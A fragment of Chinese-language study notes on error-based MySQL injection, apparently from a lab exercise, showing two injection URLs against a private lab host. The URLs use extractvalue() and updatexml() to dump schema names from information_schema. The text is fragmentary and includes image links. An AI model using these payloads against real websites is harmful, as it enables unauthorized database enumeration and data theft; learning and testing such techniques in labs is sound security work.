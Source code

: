    ![image-20210707100809840](websafe/image-20210707100809840.png)
   
   name_const()产生一个集合列时，
   
   ```mysql
   http://172.16.12.2/updatexml_Digital.php?id=1 and extractvalue(1,concat('^',(select group_concat(schema_name) from information_schema.schemata where schema_name!=0x696e666f726d6174696f6e5f736368656d61),'^'))--+
   
   ```
   
   ![image-20210707102538518](websafe/image-20210707102538518.png)

```mysql
http://172.16.12.2/updatexml_Digital.php
?id=1 and updatexml(1,(select group_concat(schema_name) from information_schema.schemata),1) --+
```
